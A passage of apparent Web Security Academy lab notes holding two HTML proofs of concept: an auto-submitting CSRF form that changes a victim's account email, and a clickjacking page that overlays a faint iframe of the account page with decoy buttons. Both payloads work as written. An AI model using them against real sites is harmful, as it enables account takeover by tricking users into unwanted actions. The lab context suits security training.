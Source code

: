 ```html
<html>
  <body>
    <form action="https://0aea002d03121c0d83d0d95c00890028.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="evil@normal-user.net" />
      <input type="hidden" name="csrf" value="jX98F5QoE4uS71nwAF5" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      <!-- this is clever -->
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### Clickjacking PoC
```html
<style>
  iframe {
    position: relative;
    z-index: 2;
    width: 1280px;
    height: 800px;
    opacity: 0.1;
  }

  .first {
    position: absolute;
    top: 535px;
    left: 97px;
    z-index: 1;
  }

  .next {
    position: absolute;
    top: 334px;
    left: 252px;
    z-index: 1;
  }
</style>
<div class="first">
  Click me first
</div>
<div class="next">
  Click me next
</div>
<iframe src="https://0ae2003b0322f74f8008a85a00660013.web-security-academy.net/my-account"></iframe>
```
